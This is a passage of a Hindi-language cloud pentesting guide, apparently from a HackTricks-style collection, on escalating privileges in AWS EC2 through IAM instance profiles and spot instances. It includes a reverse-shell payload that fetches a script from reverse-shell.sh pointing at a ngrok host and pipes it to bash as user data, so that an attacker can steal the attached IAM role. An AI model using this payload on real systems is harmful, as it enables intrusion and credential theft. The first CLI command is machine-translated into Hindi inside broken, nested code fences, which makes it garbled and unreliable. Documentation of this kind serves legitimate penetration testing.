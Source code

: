 * या **बदलें** गए इंस्टेंस प्रोफ़ाइल को बदलें (`ec2:ReplaceIamInstanceProfileAssociation`). \*

{% code overflow="wrap" %}
````
```bash
```html
<p>aws ec2 आईएएम-इंस्टेंस-प्रोफाइल-एसोसिएशन-पुनः-स्थानांतरण --आईएएम-इंस्टेंस-प्रोफाइल नाम=<मान> --एसोसिएशन-आईडी <मान></p>
```
```
````
{% endcode %}

**संभावित प्रभाव:** एक विभिन्न EC2 भूमिका की सीधी प्रिविलेज उन्नति (आपको एक AWS EC2 इंस्टेंस को कंप्रोमाइज़ करना होगा और कुछ अतिरिक्त अनुमति या विशेष इंस्टेंस प्रोफ़ाइल स्थिति होनी चाहिए)।

### `ec2:RequestSpotInstances`,`iam:PassRole`

एक हमलावर जिसके पास **`ec2:RequestSpotInstances` और `iam:PassRole`** अनुमतियाँ हैं, वह एक **Spot Instance** का **अनुरोध** कर सकता है जिसमें एक **EC2 भूमिका संलग्न** है और **उपयोगकर्ता डेटा** में एक **रिवर्स शैल** है।\
एक बार इंस्टेंस चलाया जाता है, वह **IAM भूमिका चुरा सकता है**।

{% code overflow="wrap" %}
```bash
REV=$(printf '#!/bin/bash
curl https://reverse-shell.sh/2.tcp.ngrok.io:14510 | bash
' | base64)

aws ec2 request-spot-instances \
--instance-count 1 \
--launch-specification "{\"IamInstanceProfile\":{\"Name\":\"EC2-CloudWatch-Agent-Role\"}, \"InstanceType\": \"t2.micro\", \"UserData\":\"$REV\", \"ImageId\": \"ami-0c1bc246476a5572b\"}"
```
{% endcode %}

### `ec2:ModifyInstanceAttribute`
